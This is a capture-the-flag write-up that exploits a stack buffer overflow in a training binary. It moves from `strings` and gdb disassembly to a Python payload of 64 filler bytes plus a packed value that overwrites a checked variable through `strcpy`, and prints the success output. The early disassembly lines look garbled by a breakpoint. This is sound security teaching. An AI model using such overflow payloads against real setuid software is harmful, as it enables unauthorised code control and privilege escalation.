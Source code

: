 ## ex01

### Objective
The goal of this challenge is to modify a specific variable in the binary and see the message "you have correctly got the variable to the right value".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=05192c075e2384bc94402b41f639965cc9fb9c87, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    strcpy
    puts
    printf
    errx
    __libc_start_main
    GLIBC_2.0
    PTRh
    QVhd
    D$\=dcbau
    [^_]
    please specify an argument
    you have correctly got the variable to the right value
    Try again, you got 0x%08x
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `strcpy` function call, which is vulnerable to buffer overflow.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048464 <+0>:     push   %ebp
       0x08048465 <+1>:     mov    %esp,%ebp
       0x08048467 <+3>:     and    $0xfffffff0,%esp
       0x0804846a <+6>:     sub    $0x60,%esp
    => 0x0804846d <+9>:     int3   
       0x0804846e <+10>:    jge    0x8048478 <main+20>
       0x08048470 <+12>:    add    %esi,0x14(%ebp)
       0x08048473 <+15>:    movl   $0x80485a0,0x4(%esp)
       0x0804847b <+23>:    movl   $0x1,(%esp)
       0x08048482 <+30>:    call   0x8048388 <errx@plt>
       0x08048487 <+35>:    movl   $0x0,0x5c(%esp)
       0x0804848f <+43>:    mov    0xc(%ebp),%eax
       0x08048492 <+46>:    add    $0x4,%eax
       0x08048495 <+49>:    mov    (%eax),%eax
       0x08048497 <+51>:    mov    %eax,0x4(%esp)
       0x0804849b <+55>:    lea    0x1c(%esp),%eax
       0x0804849f <+59>:    mov    %eax,(%esp)
       0x080484a2 <+62>:    call   0x8048368 <strcpy@plt>
       0x080484a7 <+67>:    mov    0x5c(%esp),%eax
       0x080484ab <+71>:    cmp    $0x61626364,%eax
       0x080484b0 <+76>:    jne    0x80484c0 <main+92>
       0x080484b2 <+78>:    movl   $0x80485bc,(%esp)
       0x080484b9 <+85>:    call   0x8048398 <puts@plt>
       0x080484be <+90>:    jmp    0x80484d5 <main+113>
       0x080484c0 <+92>:    mov    0x5c(%esp),%edx
       0x080484c4 <+96>:    mov    $0x80485f3,%eax
       0x080484c9 <+101>:   mov    %edx,0x4(%esp)
       0x080484cd <+105>:   mov    %eax,(%esp)
       0x080484d0 <+108>:   call   0x8048378 <printf@plt>
       0x080484d5 <+113>:   leave  
       0x080484d6 <+114>:   ret    
    End of assembler dump.
    ```

    - We identified the following key points in the disassembly:
      - The `strcpy` function is called at offset `+62` with the destination buffer located at `0x1c(%esp)` and the source string located at `0x4(%esp)`.
      - There is a comparison at offset `+71` to check if a specific value (`0x61626364`, which is ASCII for "abcd") is present in the variable located at `0x5c(%esp)`.
      - The success message is displayed if this comparison is true, as shown by the call to `puts` with the message address `0x80485bc`.

3. **Determine Buffer Size and Offset**:
    - The destination buffer for `strcpy` starts at `0x1c(%esp)`.
    - The target value to set is located at `0x5c(%esp)`.
    - The offset from the start of the buffer to the target value is `0x5c - 0x1c = 0x40` (64 bytes).

4. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the target variable.

    ```python
    import struct

    buffer_size = 64  # 0x40 in hex
    target_value = 0x61626364  # "abcd" in ASCII

    payload = b'A' * buffer_size
    payload += struct.pack("<I", target_value)

    # Print the payload
    print(payload.decode('latin-1'))
    ```

5. **Execute the Binary with the Payload**:
    - We used the following command to run the binary with the crafted payload as a command-line argument.

    ```sh
    ./bin $(python -c 'import struct; buffer_size = 64; target_value = 0x61626364; payload = b"A" * buffer_size + struct.pack("<I", target_value); print(payload.decode("latin-1"))')
    ```

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    you have correctly got the variable to the right value
    ```
![Succsess Flag](./images/image.png)

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct


buffer_size = 64  # 0x40 in hex
target_value = 0x61626364  # "abcd" in ASCII

payload = b'A' * buffer_size
payload += struct.pack("<I", target_value)

# Print the payload
print(payload.decode('latin-1'))
```